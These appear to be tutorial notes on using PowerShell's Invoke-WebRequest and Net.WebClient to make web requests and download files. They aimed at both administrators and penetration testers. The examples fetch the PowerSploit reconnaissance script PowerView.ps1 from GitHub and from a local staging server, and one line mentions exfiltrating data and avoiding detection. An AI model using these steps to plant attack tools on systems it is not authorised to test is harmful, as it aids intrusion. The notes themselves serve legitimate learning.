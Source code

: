 ### Interacting with the Web Using PowerShell

1. **Invoke-WebRequest Cmdlet**:
    
    - **Purpose**: Performs HTTP/HTTPS requests, parses HTML, downloads files, and more.
    - **Aliases**: `wget`, `iwr`, `curl`.
    - **Basic Syntax**:
        - `Invoke-WebRequest -Uri <URL> -Method <Method>`
2. **Help and Properties**:
    
    - To view details about `Invoke-WebRequest`, use:
        - `Get-Help Invoke-WebRequest`
    - Properties include `Content`, `Headers`, `StatusCode`, `RawContent`, etc.
3. **Simple Web Request**:
    
    - Example to make a GET request and view properties:
        - `Invoke-WebRequest -Uri "<URL>" -Method GET | Get-Member`
    - Example to filter and view specific content, like images:
        - `Invoke-WebRequest -Uri "<URL>" -Method GET | fl Images`
4. **Downloading Files**:
    
    - **From the Internet**:
        - Example to download PowerView.ps1:
            - `Invoke-WebRequest -Uri "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1" -OutFile "C:\PowerView.ps1"`
    - **From a Local Server**:
        - Start a local Python server: `python3 -m http.server 8000`
        - Download using:
            - `Invoke-WebRequest -Uri "http://<server-ip>:8000/PowerView.ps1" -OutFile "C:\PowerView.ps1"`
5. **Using .Net.WebClient Class**:
    
    - **Alternative to `Invoke-WebRequest`**:
        - Example to download a file:
            - `(New-Object Net.WebClient).DownloadFile("<URL>", "<Destination-File>")`

### Practical Uses

- **For Administrators**: Automate software updates, application installations, and data retrieval without manual intervention.
- **For Pentesters**: Quickly deploy tools or exfiltrate data from compromised systems. Local or internal network downloads help reduce detection risks.

### Next Steps

- **Practice**: Try different types of requests, explore filtering options, and use various properties to parse and extract needed data.
- **Automation**: Leverage these capabilities for scripting and automation to streamline system administration and penetration testing tasks.